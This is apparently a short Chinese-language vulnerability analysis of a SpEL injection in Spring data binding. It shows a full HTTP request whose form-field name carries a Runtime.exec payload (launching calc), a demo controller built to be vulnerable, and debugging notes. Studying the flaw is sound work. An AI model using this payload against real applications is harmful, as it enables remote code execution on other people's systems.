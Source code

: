   ```
  POST /demo/get HTTP/1.1
  Host: 192.168.1.5:8080
  Cache-Control: max-age=0
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9
  Connection: close
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 56
  
  user[T(java.lang.Runtime).getRuntime().exec(%22calc%22)]
  
  
  COntroller:DemoInter是一个接口，接口中的属性都可以作为payload
  @RestController
  @RequestMapping("/demo")
  public class Demo {
  
  
      @RequestMapping("/get")
      public String get(DemoInter demoInter){
          return "haha";
      }
      @RequestMapping("/get2")
      public String get2(bean2 demoInter){
          return "haha";
      }
  
  }
  
  public interface DemoInter {
      String getName();
      String[] getUser();
  }
  ```

  ##### 通过diff，大家都知道这还是一个Spel注入问题，漏洞触发点在MapDataBind的setPropertyValue()

  ![image-20220501015854596](https://user-images.githubusercontent.com/33454436/166196185-441eaff6-6640-4c7a-a02d-2c70f4f7bc16.png)

  ##### 如代码块中所示，Controller中存在两个接口，get的形参是Demointer(接口) ，get2的形参是一个类；

  ##### 通过debug找到数据绑定的如下节点，对这里有些疑惑
  ![image-20220501021616494](https://user-images.githubusercontent.com/33454436/166196236-82ed5b86-bf9e-43ed-bfcb-6176c13f86d0.png)
  